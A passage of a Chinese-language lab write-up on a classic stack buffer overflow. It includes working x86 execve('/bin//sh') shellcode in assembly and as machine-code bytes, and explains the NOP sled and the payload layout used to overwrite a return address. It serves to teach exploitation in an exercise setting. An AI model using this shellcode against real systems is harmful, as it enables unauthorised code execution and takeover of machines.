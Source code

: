 buffer数组首地址为`0xbfffeed4`，与vul函数返回地址`0x080485dd`相距 4 X 14 = 56个字节。

#### 构建攻击字符串

##### shellcode

shellcode 是一小段代码，用作利用软件漏洞的有效负载。它被称为“shellcode”，因为它通常启动一个命令 shell，攻击者可以从中控制受感染的机器，但任何执行类似任务的代码都可以称为 shellcode。

```assembly
xor     eax, eax    ; Clearing eax register
push    eax         ; Pushing NULL bytes
push    0x68732f2f  ; Pushing //sh
push    0x6e69622f  ; Pushing /bin
mov     ebx, esp    ; ebx now has address of /bin//sh
push    eax         ; Pushing NULL byte
mov     edx, esp    ; edx now has address of NULL byte
push    ebx         ; Pushing address of /bin//sh
mov     ecx, esp    ; ecx now has address of address
                    ; of /bin//sh byte
mov     al, 11      ; syscall number of execve is 11
int     0x80        ; Make the system call
```

转为机器码

```shell
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

我们的目标是让错误的程序`buf`执行 shellcode。猜测注入代码的准确入口地址，即使猜错一个字节都会导致攻击失败。为了做到这一点，我们将 shellcode 作为命令行参数传递，因此它最终会在缓冲区中结束。然后我们覆盖返回地址（前面例子中的 C + ’\xbf‘），所以它会指向缓冲区中某处的内存地址。这将使程序跳转到 shellcode 并执行该代码而不是常规程序。

在程序执行期间内存可能会移动一点，所以我们不知道 shellcode 将从缓冲区中的哪个地址开始。NOP-sled 是解决这个问题的一种方法。

##### NOP-sled

NOP-sled 是一系列 NOP（无操作）指令，旨在将 CPU 的指令执行流程“*滑动”到下一个内存地址。*返回地址在 NOP-sled 中的任何位置，它都会沿着缓冲区滑动，直到到达 shellcode 的开头。每个 CPU的 NOP 值可能不同，但对于我们针对的操作系统和 CPU，NOP 值为`\x90`.

![nopsled_slide](漏洞分析练习题/nopsled_slide.png)

对于 NOP-sled，shellcode 在缓冲区中的哪个位置可以让返回地址命中它并不重要。我们所知道的是它将位于缓冲区中的某个位置。

有效载荷：`[ NOP SLED ][ SHELLCODE ]`

#### 固定有效载荷

buffer数组首地址为`0xbfffeed4`，使用它，我们现在知道包含有效负载的运行时内存地址。这意味着我们可以在 NOP-sled 中的某处选择一个地址作为返回地址指向。

从内存的角度来看，有效负载将从堆栈顶部向底部（从低到高的内存）插入缓冲区中。返回地址将以相反的顺序读取，从堆栈底部向顶部：
